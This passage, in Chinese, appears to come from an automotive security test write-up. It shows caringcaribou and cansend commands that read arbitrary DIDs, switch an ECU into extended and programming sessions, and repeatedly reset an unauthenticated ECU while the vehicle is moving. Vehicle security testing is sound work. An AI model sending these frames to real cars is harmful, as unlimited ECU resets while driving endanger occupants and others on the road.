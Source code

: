 尝试进行重置 ECU，读取任意 did 等操作，发现并没有鉴权

`cc.py uds dump_dids 0x607 0x608`

![图片](assets/1704762236-d120944fdd8088abf84a7868893d64f6.png)

切换至扩展会话模式

`cansend can0 607#0210030000000000`

在车辆行驶的过程中向车辆发送

**发送重置 ecu 请求，** 多次发送可以发现 Ecu 无限制重置

`cc.py uds ecu_reset 2 clientid serverid`

![图片](assets/1704762236-3212788d1c03f8b874d82f7b4fb591ee.png)

**27 服务安全性**

切换至编程模式

`cansend can0 607#0210020000000000`
